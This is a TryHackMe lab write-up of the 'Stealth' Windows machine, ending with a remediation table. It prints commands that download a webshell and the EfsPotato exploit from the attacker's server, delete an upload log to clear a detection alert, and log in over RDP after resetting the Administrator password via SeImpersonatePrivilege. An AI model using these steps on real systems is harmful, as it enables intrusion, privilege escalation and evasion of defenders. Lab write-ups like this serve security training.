# Stealth — TryHackMe Writeup

**Platform:** TryHackMe | **Difficulty:** Medium | **Target IP:** 10.64.152.157 | **Attacker IP:** 192.168.131.193

## Machine info



## Summary

**Stealth** is a TryHackMe machine built around evading Windows Defender. Initial access comes from uploading a PowerShell reverse shell to a vulnerable PowerShell Script Analyser web app running in Dev Mode, landing a shell as evader; decoding a hidden note points to a blue-team alert page whose content changes once the upload log is cleared. Enumeration rules out PrintSpoofer, since the Print Spooler service is disabled, and a parallel p0wny-shell webshell reveals that the Apache service process instead carries SeImpersonatePrivilege. EfsPotato abuses that privilege to run a native, non-scripted command as SYSTEM, setting a new password directly on the built-in Administrator account, before logging in over RDP for an already-elevated shell.

**Attack chain:** PowerShell Script Analyser Upload → evader Reverse Shell → p0wny-shell Reveals SeImpersonatePrivilege → EfsPotato Sets Administrator Password → RDP Login → Administrator

## 1. Reconnaissance

A full TCP port scan of the target turned up SMB, RDP, WinRM, a PHP CLI server on `8000`, and two Apache instances on `8080`/`8443` serving a custom app, with the RDP certificate exposing the hostname `HostEvasion`:

```
nmap -p- -Pn -sS -sV -sC -vvv -oN scan.txt 10.64.152.157

PORT      STATE SERVICE       REASON          VERSION
139/tcp   open  netbios-ssn   syn-ack ttl 126 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 126
3389/tcp  open  ms-wbt-server syn-ack ttl 126 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: HOSTEVASION
|   NetBIOS_Domain_Name: HOSTEVASION
|   NetBIOS_Computer_Name: HOSTEVASION
|   DNS_Domain_Name: HostEvasion
|   DNS_Computer_Name: HostEvasion
|   Product_Version: 10.0.17763
|_  System_Time: 2026-11-22T20:12:34+00:00
| ssl-cert: Subject: commonName=HostEvasion
| Issuer: commonName=HostEvasion
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-11-21T20:07:39
| Not valid after:  2027-05-23T20:07:39
| MD5:     bdf8 e991 6814 9b5d 266c e16c 71ee 2d7b
| SHA-1:   1f7b 33d9 c431 c4fc f0f5 fabc 3019 7a02 bfd1 44ac
| SHA-256: 7235 33db 07c5 73be ee31 0580 2aec 2199 8f34 9728 09f2 f9de 339a 5cbb bf1f db42
| -----BEGIN CERTIFICATE-----
| MIIC2jCCAcKgAwIBAgIQXIqWNWj1vppM8hfU6fxW3DANBgkqhkiG9w0BAQsFADAW
| MRQwEgYDVQQDEwtIb3N0RXZhc2lvbjAeFw0yNjExMjEyMDA3MzlaFw0yNzA1MjMy
| MDA3MzlaMBYxFDASBgNVBAMTC0hvc3RFdmFzaW9uMIIBIjANBgkqhkiG9w0BAQEF
| AAOCAQ8AMIIBCgKCAQEAo8+MfqKbyPg80FeMfH+NT+PR8teBjJcTisHziX/zU4fO
| zVm6MjyevNL6aksvQZnuoJQg5uT46T3xKOBcLNzfWP98VfRGdJhGJVGLgs7qM3Mv
| /svg5fLNj4jNFl9ERfhi2ROsmM2d2boHMjLaCNraudq2xnvTnnvwTIuC8k6tp5LW
| pA3nHiCWe/GPrFnbzjl2ZsQuFskZZHeDfbIg1qf9pNk/KU9T/vPq84BG0ntWRk5p
| anj/9oYKnJ0eRpTL3eqTM1ZqjuxcSmiYh4wnpmJAuAqePO2ZYP1edBpTpQ1qB2fw
| 6bUjF7iQr9Z8dqU95j6fEG/zEJTo6+m8+NSj62zkoQIDAQABoyQwIjATBgNVHSUE
| DDAKBggrBgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQELBQADggEBAHMH
| xebygojKUE9aqkarOkWHK6jtagKeCTrG+Mk2VYUZCXFTBNTVQVYLsZi4yyHVitPJ
| cE4TUnhNrcOaWK8IOp+cBV5lEbBjhl5ZN267viaJaIipc1LMYBSlR65HEJf80UpH
| m4EDK5vDmdk5riLt9r7sYtnEnX2XyvnuAt1NDNxjy0w4Io5mLsZiSWU55TJRtXVG
| yJoscTNOOaWx7H/hhAiO/5X1G6kZggvh/Og1+FgF3CI6+d5NyPT8Z0H3P5p1aE66
| W5yYK0tcvwuFHYKCZBMHQE7ufe0DarbPa0XdhGUQLdXr6u3lK55l00eZeD5BMqHl
| 1EgPgTrw5Thv/BxuXwI=
|_-----END CERTIFICATE-----
|_ssl-date: 2026-11-22T20:12:53+00:00; 0s from scanner time.
5985/tcp  open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8000/tcp  open  http          syn-ack ttl 126 PHP cli server 5.5 or later
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: 404 Not Found
8080/tcp  open  http          syn-ack ttl 126 Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
|_http-title: PowerShell Script Analyser
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
|_http-open-proxy: Proxy might be redirecting requests
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
8443/tcp  open  ssl/http      syn-ack ttl 126 Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
| tls-alpn: 
|_  http/1.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:     a0a4 4cc9 9e84 b26f 9e63 9f9e d229 dee0
| SHA-1:   b023 8c54 7a90 5bfa 119c 4e8b acca eacf 3649 1ff6
| SHA-256: 0169 7338 0c0f 1df0 0bd9 593e d8d5 efa3 706c d6df 7993 f614 1272 b805 22ac dd23
| -----BEGIN CERTIFICATE-----
| MIIBnzCCAQgCCQC1x1LJh4G1AzANBgkqhkiG9w0BAQUFADAUMRIwEAYDVQQDEwls
| b2NhbGhvc3QwHhcNMDkxMTEwMjM0ODQ3WhcNMTkxMTA4MjM0ODQ3WjAUMRIwEAYD
| VQQDEwlsb2NhbGhvc3QwgZ8wDQYJKoZIhvcNAQEBBQADgY0AMIGJAoGBAMEl0yfj
| 7K0Ng2pt51+adRAj4pCdoGOVjx1BmljVnGOMW3OGkHnMw9ajibh1vB6UfHxu463o
| J1wLxgxq+Q8y/rPEehAjBCspKNSq+bMvZhD4p8HNYMRrKFfjZzv3ns1IItw46kgT
| gDpAl1cMRzVGPXFimu5TnWMOZ3ooyaQ0/xntAgMBAAEwDQYJKoZIhvcNAQEFBQAD
| gYEAavHzSWz5umhfb/MnBMa5DL2VNzS+9whmmpsDGEG+uR0kM1W2GQIdVHHJTyFd
| aHXzgVJBQcWTwhp84nvHSiQTDBSaT6cQNQpvag/TaED/SEQpm0VqDFwpfFYuufBL
| vVNbLkKxbK2XwUvu0RxoLdBMC/89HqrZ0ppiONuQ+X2MtxE=
|_-----END CERTIFICATE-----
|_http-title: PowerShell Script Analyser
47001/tcp open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-11-22T20:12:35
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 63436/tcp): CLEAN (Couldn't establish connection (TIMEOUT))
|   Check 2 (port 48119/tcp): CLEAN (Couldn't establish connection (TIMEOUT))
|   Check 3 (port 63961/udp): CLEAN (Couldn't receive bytes: TIMEOUT)
|   Check 4 (port 15086/udp): CLEAN (Couldn't receive bytes: TIMEOUT)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
```

## 2. Initial Access via PowerShell Script Analyser — Reverse Shell as evader

The Apache instance on `8080` hosts `PowerShell Script Analyser`, a tool that accepts a `.ps1` upload and claims to scan it for malicious content while running in `Dev Mode`:



A base64-encoded PowerShell reverse shell saved as `script.ps1` was selected for upload:



The `Dev Mode` analysis accepted it as benign, and a `nc` listener on `192.168.131.193:4444` caught the resulting callback as `evader`:





A file named `encodedflag` on `evader`'s Desktop held a block disguised as a PEM certificate:

```
PS C:\Users\evader\Desktop> type encodedflag
-----BEGIN CERTIFICATE-----
WW91IGNhbiBnZXQgdGhlIGZsYWcgYnkgdmlzaXRpbmcgdGhlIGxpbmsgaHR0cDov
LzxJUF9PRl9USElTX1BDPjo4MDAwL2FzZGFzZGFkYXNkamFramRuc2Rmc2Rmcy5w
aHA=
```

Base64-decoding it on the attacker host revealed the address of a blue-team alert page:

```
echo "WW91IGNhbiBnZXQgdGhlIGZsYWcgYnkgdmlzaXRpbmcgdGhlIGxpbmsgaHR0cDov
LzxJUF9PRl9USElTX1BDPjo4MDAwL2FzZGFzZGFkYXNkamFramRuc2Rmc2Rmcy5w
aHA=" | base64 -d
You can get the flag by visiting the link http://<IP_OF_THIS_PC>:8000/asdasdadasdjakjdnsdfsdfs.php
```

Visiting that address confirmed the upload had tripped detection, with a hint to clear the upload log:



A directory listing of `C:\xampp\htdocs\uploads` showed `log.txt` alongside the room's own files:

```
PS C:\xampp\htdocs\uploads> dir

    Directory: C:\xampp\htdocs\uploads

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         8/1/2023   5:10 PM            132 hello.ps1
-a----        8/17/2023   4:58 AM              0 index.php
-a----       11/22/2026   8:15 PM            302 log.txt
-a----       11/22/2026   8:15 PM           1331 script.ps1
-a----         9/4/2023   3:18 PM            771 vulnerable.ps1
```

Deleting `log.txt` and reloading the alert page returned:

```
PS C:\xampp\htdocs\uploads> del log.txt
```



## 3. Privilege Escalation Enumeration — SeImpersonatePrivilege via p0wny-shell

`PrivescCheck.ps1`, run as `HOSTEVASION\evader` at Medium integrity, confirmed group membership limited to standard, non-privileged groups — `BUILTIN\Remote Desktop Users`, `BUILTIN\Users`, `NT AUTHORITY\Authenticated Users`, `NT AUTHORITY\Local account` — with only `SeChangeNotifyPrivilege` enabled at the base token level:

```
PS C:\xampp\htdocs> . .\PrivescCheck.ps1; Invoke-PrivescCheck

Name                          State    Description                    Exploitable
----                          -----    -----------                    -----------
SeChangeNotifyPrivilege       Enabled  Bypass traverse checking             False
SeIncreaseWorkingSetPrivilege Disabled Increase a process working set       False
```

The non-default services check listed `Apache2.4` running under the `evader` account:

```
Name         : Apache2.4
DisplayName  : Apache2.4
ImagePath    : "C:\xampp\apache\bin\httpd.exe" -k runservice
User         : .\evader
StartMode    : Automatic
```

The `Point and Print` check confirmed the `Print Spooler` service is disabled, ruling out `PrintSpoofer` as a later escalation option:

```
Description : The Print Spooler service is disabled.
```

A Python HTTP server on the attacker host served the tools needed for the rest of the chain:

```
python3 -m http.server
```

From the existing reverse shell, a copy of the `p0wny-shell` webshell was pulled into `C:\xampp\htdocs\shell.php`:

```
iwr http://192.168.131.193:8000/shell.php -OutFile C:\xampp\htdocs\shell.php
```

Accessing that file over `8080` gave a second, parallel shell as `evader`:



Checking privileges through that webshell, rather than the direct reverse shell, showed `SeImpersonatePrivilege` and `SeCreateGlobalPrivilege` enabled. This is because the `Apache2.4` service runs as `evader` through the `Service Control Manager`, which adds the `NT AUTHORITY\SERVICE` group to its token — and that group carries `SeImpersonatePrivilege` by default, a privilege the reverse shell never had:



## 4. Privilege Escalation via EfsPotato

With `SeImpersonatePrivilege` confirmed, the source for `EfsPotato` — a tool that abuses that privilege through the MS-EFSR RPC interface — was pulled from the same attacker-hosted HTTP server used for `p0wny-shell`:

```
iwr http://192.168.131.193:8000/EfsPotato.cs -OutFile C:\xampp\htdocs\EfsPotato.cs
```

It was then compiled on the target with `csc.exe`:



A first, harmless invocation of `EfsPotato.exe` confirmed the impersonated token was `NT AUTHORITY\SYSTEM`:



With that confirmed, `EfsPotato.exe` was used to run a single native, non-scripted command that completed the escalation, setting a new logon password directly on the built-in `Administrator` account:



## 5. RDP Login as Administrator

With a new password set on the built-in `Administrator` account, an RDP session was opened directly as `Administrator`:

```
xfreerdp /u:Administrator /p:'Pwned!' /v:10.64.152.157 /cert:ignore /dynamic-resolution
```




## Root Cause & Remediation

| Issue | Fix |
|---|---|
| `PowerShell Script Analyser`'s `Dev Mode` check could be bypassed with an encoded payload, allowing unauthenticated `.ps1` upload and remote code execution | Remove or disable `Dev Mode` in production, validate uploads independently of client-supplied encoding, and run the upload handler with least privilege |
| The `Apache2.4` service ran as `evader` through the `Service Control Manager`, which added the `NT AUTHORITY\SERVICE` group — carrying `SeImpersonatePrivilege` by default — to its token | Run web server services under a dedicated, minimally privileged account, and apply mitigations for Potato-style token impersonation abuse |
| `SeImpersonatePrivilege` was abused via `EfsPotato` to run a `net.exe` command natively as `NT AUTHORITY\SYSTEM`, setting a new password directly on the built-in `Administrator` account | Restrict `SeImpersonatePrivilege` to accounts that require it, and alert on password changes for privileged local accounts |
| The built-in `Administrator` account could log on directly over RDP once its password was known, with no additional elevation step required | Disable the built-in `Administrator` account for interactive/RDP logon, and require named, individually audited admin accounts instead |
